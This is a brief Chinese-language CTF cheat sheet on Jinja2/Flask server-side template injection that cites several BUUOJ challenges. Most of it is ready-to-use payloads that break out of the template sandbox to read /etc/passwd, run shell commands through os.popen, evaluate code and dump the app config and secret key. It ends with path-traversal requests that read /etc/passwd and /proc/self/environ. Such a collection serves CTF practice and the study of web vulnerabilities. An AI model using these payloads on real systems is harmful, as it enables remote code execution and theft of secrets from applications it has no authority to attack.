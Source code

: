 生产环境不要开 debug 模式

## ssti 服务器模板注入 jinja2

`buuoj [RootersCTF2019]l_<3_Flask`

[[WesternCTF2018]shrine](https://www.cnblogs.com/Cl0ud/p/12316287.html)

```py
# request
{{request.__init__.__globals__['__builtins__'].open('/etc/passwd').read()}}
{{request.application.__globals__['__builtins__'].open('/etc/passwd').read()}}

# url_for
{{url_for['__glob'~'als__']}}
{{url_for['__glob'~'als__']['__built'~'ins__']['eval']("next(open('/flag'))")}}
{{url_for['__glob'~'als__']['os']['popen']("cat *")['read']()}}

{{config.__class__.__init__.__globals__['os'].__getattribute__('popen')('ls /').read()}}
{{config.__class__.__init__.__globals__['os'].__getattribute__('popen')('cat /this_is_the_fla""g.txt').read()}}

# lipsum
{{lipsum.__globals__['os'].popen('whoami').read()}}
{{lipsum.__globals__.os.popen('whoami').read()}}
{{lipsum.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}

# get_flashed_messages
{{self.__dict__}}
{{url_for.__globals__['current_app'].config}}
{{get_flashed_messages.__globals__['current_app'].config}}
{{get_flashed_messages.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()")}}
```

[pasecactf_2019_flask_ssti](https://guokeya.github.io/post/zIiwsY95N/)

内置函数 `print(help(dir(__builtins__)))`

ssti 方式

```
?flag={{config.SECRET_KEY}}
/hello?name={{7*7}}
/hello?name={{config}}

原题目通过lfi, 文件穿越
/downloadj?image=1.jpg
/downloadj?image=../../../../../../../etc/passwd/

查看程序环境变量
/downloadj?image=../../../../../../../proc/self/environ
看到secret_key
```
